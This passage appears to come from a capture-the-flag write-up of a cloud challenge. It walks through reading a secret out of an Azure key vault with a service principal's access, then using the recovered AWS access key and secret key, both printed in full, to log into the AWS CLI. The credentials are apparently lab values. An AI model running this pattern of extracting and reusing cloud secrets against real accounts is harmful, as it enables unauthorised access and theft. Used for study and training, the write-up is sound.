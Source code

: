 ```python
            status_code=200
    )

```

Taking a look at the source code, we see that a `secret` is obtained from an Azure [key vault](https://azure.microsoft.com/en-us/products/key-vault/) and used as the secret access key for an AWS session.

As stated previously in the `readme.md`, the service principal account we have access to "has the same privileges as the function app". This means that we should be able to retrieve this secret from the key vault.

```bash
$ az keyvault secret show --name AKIA5G4XMRW7TLT6XD7R --vault-name olympurr-aws
{
  "attributes": {
    "created": "2022-11-18T03:25:20+00:00",
    "enabled": true,
    "expires": null,
    "notBefore": null,
    "recoveryLevel": "CustomizedRecoverable+Purgeable",
    "updated": "2022-11-18T03:25:20+00:00"
  },
  "contentType": "",
  "id": "https://olympurr-aws.vault.azure.net/secrets/AKIA5G4XMRW7TLT6XD7R/05c534380f7b480d90dcaffc7364bce6",
  "kid": null,
  "managed": null,
  "name": "AKIA5G4XMRW7TLT6XD7R",
  "tags": {},
  "value": "fgQdSIETJp/yBKwWbmf2SprGa2eXWyqgkeeIdWtL"
}
```

Next, an AWS [lambda function](https://docs.aws.amazon.com/lambda/latest/dg/welcome.html) by the name of `event-webservice` is invoked.

Before we proceed with exploring AWS, we need to log in by configuring the access key ID and secret access key we just found in our AWS CLI.

```
$ aws configure
AWS Access Key ID [****************F6I5]: AKIA5G4XMRW7TLT6XD7R
AWS Secret Access Key [****************AFl2]: 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
Default region name [ap-southeast-1]:
Default output format [None]:

$ aws sts get-caller-identity
{
    "UserId": "AIDA5G4XMRW7UAWT26Q6Q",
    "Account": "908166204863",
    "Arn": "arn:aws:iam::908166204863:user/azure_user"
}
```
